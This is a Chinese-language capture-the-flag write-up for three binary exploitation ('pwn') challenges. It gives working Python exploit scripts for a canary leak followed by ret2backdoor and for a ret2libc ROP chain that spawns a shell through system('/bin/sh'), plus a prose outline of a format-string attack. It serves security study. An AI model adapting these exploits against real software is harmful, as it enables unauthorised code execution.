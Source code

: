 ## Pwn

### canary

泄露 canary 后直接 ret2backdoor

```python
from pwnfunc import *

io, elf, libc = pwn_initial()
set_context(term="tmux_split", arch="amd64")
"""amd64 i386 arm arm64 riscv64"""

payload = b"%11$p"
sl(payload)
ru(b"0x")
canary = int(r(len("91bfe76e41f43c00")), 16)
success(hex(canary))
payload = b"a" * 0x28 + p(canary) + b"a" * 8 + p(0x00000000004006F7)
s(payload)
ia()
```

### Stack

没开PIE和canary，溢出长度足够，泄露libc拿个/bin/sh然后直接system就行

```python
from pwnfunc import *

io, elf, libc = pwn_initial()
set_context(term="tmux_split", arch="amd64")
"""amd64 i386 arm arm64 riscv64"""

puts = 0x0000000000400520
prdi = 0x0000000000400843
sys = 0x0000000000400530
ret = 0x000000000040050E
payload = b"a" * 0x28 + p(prdi) + p(elf.got["puts"]) + p(puts) + p(0x00000000004006A8)
ps()
rl()
s(payload)
base = u(r(6).ljust(8, b"\0")) - 0x80970
success(hex(base))
binsh = base + 0x00000000001B3D88
payload = b"a" * 0x28 + p(prdi) + p(binsh) + p(ret) + p(sys)
s(payload)
ia()
```

### fmt
非栈上格式化字符串考点，给了无限次fmt次数，观察栈发现offset为13/16的地址指向offset为43的地址，于是先泄露栈基址，然后打连续指针改写返回地址为backdoor即可
